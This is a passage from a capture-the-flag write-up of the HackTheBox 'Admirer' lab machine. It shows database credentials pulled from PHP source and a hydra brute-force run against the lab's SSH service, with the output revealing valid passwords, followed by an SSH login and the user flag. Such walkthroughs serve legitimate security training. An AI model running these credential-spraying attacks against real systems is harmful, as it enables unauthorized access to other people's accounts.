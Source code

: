                     <!-- Wrapper -->
                            <div id="wrapper">

                                    <!-- Header -->
                                            <header id="header">
                                                    <h1><a href="index.html"><strong>Admirer</strong> of skills and visuals</a></h1>
                                                    <nav>
                                                            <ul>
                                                                    <li><a href="#footer" class="icon solid fa-info-circle">About</a></li>
                                                            </ul>
                                                    </nav>
                                            </header>

                                    <!-- Main -->
                                            <div id="main">
                                            <?php
                            $servername = "localhost";
                            $username = "waldo";
                            $password = "&<h5b~yK3F#{PaPB&dA}{H>";
                            $dbname = "admirerdb";


We can then connect to the local database with adminer but there is nothing
interesting there.

I have the habit to create two files `user` and `passwd` containing the looted
data. We use `hydra` to test the gather creds against the ssh service. The last
password found is a valid SSH password for the `waldo` user.

    $ hydra -L user -P passwd ssh://10.10.10.187
    Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-05 05:22:06
    [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 66 login tries (l:11/p:6), ~5 tries per task
    [DATA] attacking ssh://10.10.10.187:22/
    [22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
    [22][ssh] host: 10.10.10.187   login: waldo   password: &<h5b~yK3F#{PaPB&dA}{H>
    1 of 1 target successfully completed, 2 valid passwords found
    Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-05 05:22:17

We can then connect to ssh and get the user flag.

    :::text
    kali@kali:~/pown/htb_admirer/loot/html$ ssh waldo@10.10.10.187
    waldo@10.10.10.187's password:
    <SNIP>
    waldo@admirer:~$ cat user.txt
    fea0c3468144ce6091631cfbfb6c81eb

# Way to root
